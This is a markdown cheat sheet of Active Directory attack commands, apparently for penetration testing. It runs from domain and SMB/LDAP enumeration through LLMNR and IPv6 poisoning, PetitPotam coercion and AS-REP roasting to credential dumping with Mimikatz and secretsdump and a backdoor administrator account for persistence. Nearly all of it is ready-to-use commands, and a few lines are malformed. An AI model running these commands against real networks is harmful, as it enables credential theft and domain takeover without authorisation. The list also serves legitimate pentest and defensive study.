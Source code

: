 ### Find Domain Controller IP
- Commands
	- Shows the domain name and DNS Second command finds the domain controller IP
```
nmcli dev show
nslookup -type=SRV _ldap._tcp.dc._msdcs.<DOMAIN>
```
### Zone Transfer
- Command to attempt a DNS zone transfer
```
dig axfr <DOMAIN>@<NAMESERVER>
```

### List Guest Access on SMB Share
- Enum access with guest account
```
enum4linux -a -u "" -g "" <DC_IP>
```
- Enumerate SMB shares
```
smbmap -u "guest" -p "" -H <DC_IP>
```
- List shares accessible as guest
```
smbclient -U "guest" -L //<DC_IP>
```
- Check for null sessions
```
cme smb <DC_IP> -u "" -p "" --shares
```
- Enumerate anonymous access
```
cme smb <IP> -u "" -p ""
```
### Enumerate LDAP
- Search LDAP services
```
nmap -n -sV --script "ldap*" -p 389 <DC_IP>
```
- Retrieve LDAP information
```
ldapsearch -x -h <IP> -b <BASE>
```
### Find User List
- Enumerate users
```
enum4linux -U <DC_IP> | grep 'user'
```
- List users
```
cme smb <IP> --users
```
- Retrieve user information
```
net rpc group members "Domain Users" -W "<DOMAIN>" | <IP> -U%
```
### Poisening
- LLMNR/NetBIOS/MDNS
```
responder -l eth0 #use --lm to force lm downgrade for downgrading and disable SMB & HTTP if relay
```
- IPV6 preferred to IPV4
```
mitm6 -d <domain>
```
- ARP poisening
	- Tools like bettercap
### Coercion
- **PetitPotam (CVE-2022-26925)**: Using PetitPotam to force authentication
```
cme smb --target <LISTENER_IP>
```
```
PetitPotam.py -d <DOMAIN><LISTENER_IP><TARGET_IP>
```
### Initial Recon
- Whoami
```
whoami /priv
```
- List domain Users
```
net user /domain
```
- Get Admin Users
```
Get-NetUser -AdminCount 1
```
### Enumeration & Information Gathering
- Tools
- LDAP Search for AD structure
- PowerView
	- Use Get-NetUser, Get-NetComputer, and Find-DomainShare
- Share Discovery
```
smbclient -L //<TARGET_IP> -N
```
```
netexec smb <TARGET_IP> --shares --users
```
### SMB and Kerberos Attacks
- AS-REP Roasting
```
GetNPUsers.py <DOMAIN>/<USER> -no-pass
```
- Kerbrute User Enumeration
```
kerbrute userenum -d <DOMAIN>
```
- SMB Enumeration
```
smbclient //<IP>/<SHARE> -N
```
### Privilege Escalation Paths
- Bloodhound analyze paths to domain admin after 
```
SharpHound.exe -c All
```
- PowerView checks 
```
Find-ObjectACL -SamAccountName "Domain Admins"
```
### Credential Harvesting
- Mimikatz
```
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```
- Impacket Tools
```
secretsdump.py <DOMAIN>/<USERNAME>@<TARGET> -hashes lm:nt
```
### Persistence Techniques
- Add Admin User
```
net user backdoor Password123! /add net localgroup administrators backdoor /add
```
- Create silver ticket
```
use Rubeus
```